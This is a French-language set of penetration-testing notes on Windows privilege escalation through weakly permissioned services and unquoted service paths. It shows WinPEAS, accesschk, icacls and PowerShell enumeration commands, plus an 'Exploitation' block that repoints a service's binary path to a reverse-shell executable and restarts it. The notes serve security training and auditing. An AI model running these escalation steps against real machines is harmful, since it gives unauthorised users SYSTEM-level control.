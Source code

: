 ```yaml
---
public: true
---
```


**Détails de Recherche de vecteur d'escalade via des services : [[Weak Permissions]]**

## Trouver un service vulnérable (automatique)

`WinPeas` identifie tous les services vulnérables.

Il faut regarder les sections suivantes :

```shell
# Information sur les services
===============(Services Information)=============

# Information sur les Applications (à recouper avec les chemin d'accès des services)
===========(Applications Information)================
```

## Permissions de modifier un service

Si on peut modifier un service, on pourra remplacer le processus lancé par un reverse shell.

### Detection

#### Manuelle

```shell
accesschk -accepteula -quwc daclsvc
daclsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  RW Everyone                          <====================
```

#### Automatique

Dans les résultats de la commande `.\winPEASany.exe quiet servicesinfo applicationsinfo` :

```shell
===============(Services Information)=============
 daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] - Manual - Stopped
    YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles       <=====
```

### Exploitation

```shell
# Changement du path du service
net stop daclsvc
sc config daclsvc binpath= "\"C:\Windows\Temp\reverse.exe\""
net start daclsvc
```

## Unquoted service path
### Détection
#### Manuelle
Enuméré les services, et selectioner ceux qui ne commencent pas par des guillemets.
Exemple avec le path : `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`

```shell
# vérification avec icacls des différent chemins exploitables
"C:\Program Files\Unquoted Path Service\Common.exe"
"C:\Program Files\Unquoted.exe"
"C:\Program.exe"

# tenter de créer un fichie
```

#### Automatique

```shell
===============(Services Information)=============
[...]
unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - 
No quotes and Space detected
   =================================================================================================                                <=====
[...]

=========(Applications Information)=======
[...]
C:\Program Files\Unquoted Path Service(Users [AllAccess])       <====
[...]
```

## Trouver un service vulnérable (manuel)

### Lister les services

Lorsqu'on liste les service, on recherche en priorité des **chemins d'accès atypiques** qui potentiellement  seront moins bien conçus que les services natif au système d'exploitation :

Hors du dossier `c:\windows`

```powershell
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "c:\Windows\*" }| Sort PathName |ft
```

```shell
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

Tous les services

```powershell
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "C:\Windows\system32\svchost.exe *" }| Sort PathName |ft
```

### Regardes les permissions

#### Droits de modification d'éléments dans le path

Prenons l'exemple du service suivant :

```
C:\Program Files\Super Vendor\Great Product\superservice.exe
```

On cherchera si on peut créer les exécutables suivants :

- `C:\Program Files\Super Vendor\Great.exe`
- `C:\Program Files\Super.exe`
- `C:\Program.exe`

On vérifie donc les permission sur les dossiers parents de ces fichier potentiels :

```shell
# REMARQUE : pour les dossiers, il ne faut pas ajouter de "\" à la fin !
icacls "C:\Program Files\Super Vendor"
icacls "C:\Program Files"
icacls "C:\"
```

Exemple de permissions :

```shell
# peut créer des Dossiers MAIS PAS des fichiers
CREATOR OWNER:(OI)(CI)(IO)(F) 
# peut créer des dossiers ET des fichiers !! (exploitable)

CREATOR OWNER:(I)(OI)(CI)(IO)(F)

```

#### Unquoted service path

Pour ce type de mauvaise configuration, on cherchera des services dont le chemin d'accès :

- n'est pas entouré de "doubles quotes" (guillemets)
- contient des dossier contenant des espaces dans leur nom

### Services en dehors de c:\windows\system32

```powershell
# démarrés ou non
get-wmiobject win32_service | select name,state, startmode,pathname,StartName | ?{$_.StartName -eq "LocalSystem" -and $_.pathname -notlike "c:\Windows\System32\*" }|ft


# Rechercher des chemins d'accès atypiques 
get-wmiobject win32_service | select name,state, startmode,pathname,StartName |?{$_.State -like 'Running'}|Sort StartName | ft

  
# Liste des services sans ceux dans c:\windows :
get-wmiobject win32_service | select name,state,pathname |?{$_.State -like 'Running'} |? {$_.Pathname -notmatch 'c:\\Windows\\.*' }

# Vérifier les permissions
> icacls 'C:\Program Files\Ext2Fsd\Ext2Srv.exe'
C:\Program Files\Ext2Fsd\Ext2Srv.exe AUTORITE NT\Système:(I)(F)
                                     BUILTIN\Administrateurs:(I)(F)
                                     BUILTIN\Utilisateurs:(I)(RX)
                                     AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION:(I)(RX)
                                     AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION RESTREINTS:(I)(RX)

```

[Documentation icacls](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)

- A sequence of simple rights (basic permissions):
	- F - Full access
	- M - Modify access
	- RX - Read and execute access
	- R - Read-only access
	- W - Write-only access
- Inheritance rights may precede either `<perm>` form:
	- **(I)** - Inherit. ACE inherited from the parent container.
	- (OI)** - Object inherit. Objects in this container will inherit this ACE. Applies only to directories.
	- **(CI)** - Container inherit. Containers in this parent container will inherit this ACE. Applies only to directories.
	- **(IO)** - Inherit only. ACE inherited from the parent container, but does not apply to the object itself. Applies only to directories.
	- **(NP)** - Do not propagate inherit. ACE inherited by containers and objects from the parent container, but does not propagate to nested containers. Applies only to directories.

